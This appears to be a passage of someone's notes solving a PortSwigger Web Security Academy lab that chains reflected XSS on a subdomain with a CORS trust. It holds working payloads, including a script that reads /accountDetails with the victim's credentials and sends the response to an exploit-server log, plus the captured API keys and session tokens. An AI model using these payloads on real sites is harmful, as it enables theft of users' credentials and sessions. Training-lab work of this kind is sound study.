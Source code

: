 2. check for xss in subdomain:
```htm
GET /?productId=</h4><script>alert()</script>&storeId=1 HTTP/1.1
Host: stock.0a98005704412627c1c734ae007000c7.web-security-academy.net
```
observe pop-up!

3. lets insert a redirection command in the xss-injection point. we will use
window.location.assign()

4. test payload url:
```htm
</h4><script>window.location.assign("https%3a//0a98005704412627c1c734ae007000c7.web-security-academy.net/accountDetails")</script>
```

5. check on self:
```htm
GET /?productId=</h4><script>window.location.assign("https%3a//0a98005704412627c1c734ae007000c7.web-security-academy.net/accountDetails")</script>&storeId=1 HTTP/1.1
Host: stock.0a98005704412627c1c734ae007000c7.web-security-academy.net
```

response:
```htm
TTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
```

and when we use show in browser we see the redirect in action and retrieve information:
```htm
username	"wiener"
email	""
apikey	"p3kajdSY3767fNKqvMd8UfhoaoSugjOv"
sessions	
0	"QAud0U8PAFsU9i9eaQ8GPoe2WnRz1Y6r"
```

6. after we see redirection work lets craft exploit page:
(to see all tries and error see: /home/kali/Documents/Portswigger_labs/CORS/payload4redirection.html)

final script (based on community solution)

```javascript
<script>
    document.location="https://stock.0a6a002003794b5cc0df62bd006b005f.web-security-academy.net/?productId=<script>var xhr = new XMLHttpRequest();xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://exploit-0aa300e4036e4b1fc09e626901f30003.web-security-academy.net/log?key=' %2b xhr.responseText)};};xhr.open('GET', 'https://0a6a002003794b5cc0df62bd006b005f.web-security-academy.net/accountDetails', true);xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
</script>
```

check on self - response:
```htm
87.71.215.186   2022-08-20 13:08:08 +0000 "GET /exploit/log?key={%20%20%22username%22:%20%22wiener%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22x30WDbpnleZae8YomjZwNqor9sH9OAAq%22,%20%20%22sessions%22:%20[%20%20%20%20%22thzxzRl5owRod3CGWgztVcVjZJeWSDSs%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"

```
